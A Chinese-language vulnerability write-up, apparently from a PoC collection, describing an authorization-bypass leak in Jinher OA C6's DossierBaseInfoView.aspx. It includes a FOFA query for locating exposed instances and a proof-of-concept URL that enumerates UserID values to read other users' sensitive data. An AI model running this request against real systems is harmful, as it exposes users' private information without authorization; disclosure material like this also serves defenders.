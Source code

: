 # 金和OA C6 DossierBaseInfoView.aspx 后台越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

```
金和OA C6
```

## FOFA

```
app="Jinher-OA"
```

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```plain
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

- 注意 RY120330 需要为确定的其他的用户编号

![1](./images/202202090135010.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA